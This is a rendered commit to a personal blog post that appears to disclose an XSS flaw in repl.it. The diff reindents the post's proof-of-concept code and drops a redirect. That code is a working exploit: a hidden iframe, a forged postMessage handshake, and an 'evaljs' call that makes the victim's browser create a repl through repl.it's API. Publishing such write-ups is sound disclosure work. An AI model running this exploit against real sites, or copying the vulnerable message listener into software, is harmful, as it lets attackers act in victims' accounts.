

Before and after one commit to kmh11/blog, a Jekyll site: the page built from _posts/2019-06-26-replit-xss.md, in a window 1280 px wide and 900 px high, scrolled down 2514 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
clean code

````diff
--- a/_posts/2019-06-26-replit-xss.md
+++ b/_posts/2019-06-26-replit-xss.md
@@ -35,16 +35,14 @@
 var listeners = { load: s, evaljs: a, html: i };
 var secret;
 window.addEventListener("message", function(event) {
-	var req = JSON.parse(event.data);
-	if (req.secret) {
-		if (secret || "handshake" !== req.type) {
-			if (req.secret !== secret) return;
-			if (!listeners[req.type])
-				throw Error("No listeners for event:"
-                                             + req.type);
-			listeners[req.type](req.data);
-		} else secret = req.secret;
-	}
+  var req = JSON.parse(event.data);
+  if (req.secret) {
+    if (secret || "handshake" !== req.type) {
+      if (req.secret !== secret) return;
+      if (!listeners[req.type]) throw Error("No listeners for event:" + req.type);
+      listeners[req.type](req.data);
+    } else secret = req.secret;
+  }
 })
 ```
 
@@ -58,22 +56,19 @@
 <iframe style="position:absolute;left:-100000px;" id="repl" src="https://repl.it/public/secure"></iframe>
 <script>
 function createRepl(){
-	var xhr = new XMLHttpRequest();
-	xhr.open("POST", 'https://repl.it/data/repls/new');
-	xhr.setRequestHeader("Content-Type", "application/json");
-	xhr.send(JSON.stringify({language: "python3", title: "kmh was here " + Math.floor(Math.random()*1000000), folderId: "", isPrivate: false, description: ""}));
+  var xhr = new XMLHttpRequest();
+  xhr.open("POST", 'https://repl.it/data/repls/new');
+  xhr.setRequestHeader("Content-Type", "application/json");
+  xhr.send(JSON.stringify({language: "python3", title: "kmh was here " + Math.floor(Math.random()*1000000), folderId: "", isPrivate: false, description: ""}));
 }
 setTimeout(function() {
-	repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "handshake"}), "*");
-	setTimeout(function() {
-		repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "load"}), "*")
-		setTimeout(function() {
-			repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "evaljs", data: createRepl.toString()+";createRepl()"}), "*")
-			setTimeout(function() {
-				location.href = "https://repl.it/repls"
-			}, 20000000)
-		}, 200)
-	}, 200);
+  repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "handshake"}), "*");
+    setTimeout(function() {
+      repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "load"}), "*")
+        setTimeout(function() {
+          repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "evaljs", data: createRepl.toString()+";createRepl()"}), "*")
+        }, 200)
+    }, 200);
 }, 200);
 </script>
 ```
````
